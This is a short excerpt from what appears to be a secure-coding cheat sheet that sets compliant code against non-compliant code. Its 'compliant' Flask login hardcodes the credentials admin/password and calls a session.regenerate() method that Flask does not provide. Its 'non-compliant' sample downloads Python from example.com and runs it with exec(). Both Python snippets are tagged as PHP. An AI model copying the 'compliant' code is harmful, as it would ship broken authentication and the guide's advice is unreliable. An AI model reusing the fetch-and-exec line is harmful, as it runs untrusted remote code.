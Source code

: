 




##### ✅ compliance 


{% highlight php %}
from flask import Flask, request, session
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    # Authenticate user
    if username == 'admin' and password == 'password':
        session.regenerate()  # Regenerate session ID
        session['username'] = username
        return 'Login successful'
    else:
        return 'Login failed'

@app.route('/profile')
def profile():
    if 'username' in session:
        return f"Welcome, {session['username']}!"
    else:
        return 'Please login'

# Example usage
app.run()
{% endhighlight %}









##   Inclusion of Functionality from Untrusted Control

##### 🐞 non-compliance


{% highlight php %}
import requests

# Fetch and execute code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
exec(untrusted_code)
{% endhighlight %}
